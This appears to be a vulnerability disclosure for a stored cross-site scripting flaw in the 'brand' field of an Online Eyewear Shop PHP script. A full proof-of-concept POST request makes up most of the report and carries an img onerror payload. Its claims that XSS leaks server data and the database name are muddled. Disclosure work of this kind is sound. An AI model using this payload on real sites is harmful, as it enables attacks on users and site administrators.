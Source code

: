 ## Online optical shop website has XSS vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=save_product

## Description:
The online eyewear store website 1.0 has an XSS attack in /oews/classes/Master.php?f=save_product. The attack parameter is brand. An attacker can exploit this vulnerability to directly obtain sensitive information from the server.

Status: CRITICAL

POC
```
POST /oews/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------131405002413969045363430851847
Content-Length: 1195
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=products/manage_product&id=1
Cookie: PHPSESSID=e8a2fnat0qfqfbb3m0uv0i8sgc
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="id"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="brand"

## Brand 101<img src=1 onerror=alert(1)>
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="name"

Sunglasses 101
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="category_id"

2
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="description"

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Mauris vulputate vestibulum massa, eget ultricies nisi cursus quis.
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="price"

355.99
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="status"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------131405002413969045363430851847--
```

Get the database name directly through the error report: oews_db
![CleanShot 2024-11-13 at 15 02 06@2x](https://github.com/user-attachments/assets/dc16bef6-c12d-4135-8d87-0d982e85b455)


## Code Analysis
![CleanShot 2024-11-13 at 15 02 39@2x](https://github.com/user-attachments/assets/776c743f-f4f5-430f-acdf-43d8e990e31a)


